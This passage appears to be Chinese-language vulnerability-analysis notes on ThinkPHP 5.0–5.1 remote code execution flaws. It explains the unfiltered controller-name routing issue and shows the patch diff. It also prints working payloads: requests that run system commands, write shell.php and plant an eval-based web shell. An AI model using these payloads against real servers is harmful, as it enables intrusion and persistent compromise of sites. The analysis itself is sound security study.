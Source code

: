 漏洞概述：

payload：

> POST /public/index.php?s=captcha
>
> _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami

代码分析：

### 三、5.0.0-5.0.22、5.1-5.1.30

**影响版本：**5.0-5.0.22、5.1-5.1.30

**漏洞概述：**Thinkphp5.0和5.1中没有对路由中的控制器名进行严格过滤，当存在admin、index模块、没有开启强制路由的条件下（默认不开启），导致可以注入恶意代码利用反射类调用命名空间其他任意内置类，导致远程代码执行。

**官方公告：**https://blog.thinkphp.cn/869075

Payload：

> /?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
>
> /?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
>
> /?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
>
> ?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo ^<?php @eval($_GET["code"])?^>>shell.php

invokefunction是什么？

**代码分析：**5.0.22

- Diff 5.0.22和5.0.23代码

  5.0.22#App.php:552

  ```php
  // 获取控制器名
  $controller = strip_tags($result[1] ?: $config['default_controller']);
  $controller = $convert ? strtolower($controller) : $controller;
  ```

  5.0.23#App.php:552-559

  ```php
  // 获取控制器名
  $controller = strip_tags($result[1] ?: $config['default_controller']);
  
  if (!preg_match('/^[A-Za-z](\w|\.)*$/', $controller)) {
  	throw new HttpException(404, 'controller not exists:' . $controller);
  }
  $controller = $convert ? strtolower($controller) : $controller;
  ```

  发现对$controller控制器名称进行了过滤。

- 从public/index.php跟踪代码
